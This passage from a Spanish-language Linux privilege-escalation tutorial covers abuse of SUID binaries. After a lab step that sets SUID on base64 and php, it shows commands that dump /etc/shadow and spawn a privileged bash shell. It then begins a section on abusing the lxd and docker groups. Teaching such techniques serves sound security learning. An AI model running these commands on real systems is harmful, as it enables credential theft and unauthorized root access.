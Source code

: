 Primero, se asignará el permiso SUID a estos binarios:

```bash
{% raw %}
# Base64
file=$(which base64); chmod u+s $file; ls -l $file

# PHP
# [Nota] Debido a que hay links simbólicos, se debe ir al 
# archivo original para asignarle el permiso SUID. Se puede 
# copiar y pegar el siguiente comando
file2=$(which php | xargs ls -l | awk 'NF{print $NF}' | xargs ls -l | awk 'NF{print $NF}'); chmod u+s $file2; ls -l $file2
{% endraw %}
```

![Untitled](/assets/Privesc/Abusing-SUID/Untitled.png)

![Untitled](/assets/Privesc/Abusing-SUID/Untitled 1.png)

## Explotación del SUID

Leer archivos con el comando base64:

```bash
# Mostrar el contenido de "/etc/shadow" en base64
base64 -w 0 /etc/shadow

# Mostrar el contenido de /etc/shadow
base64 -w 0 /etc/shadow | base64 -d
```

Obtener una shell con el comando PHP:

```bash
php -r "pcntl_exec('/bin/bash', ['-p']);"
```

![Untitled](/assets/Privesc/Abusing-SUID/Untitled 2.png)

# Abuso de grupos de usuario especiales

    
En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.
    
Existen grupos especiales en Linux, como ‘**lxd**‘ o ‘**docker**‘, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.
    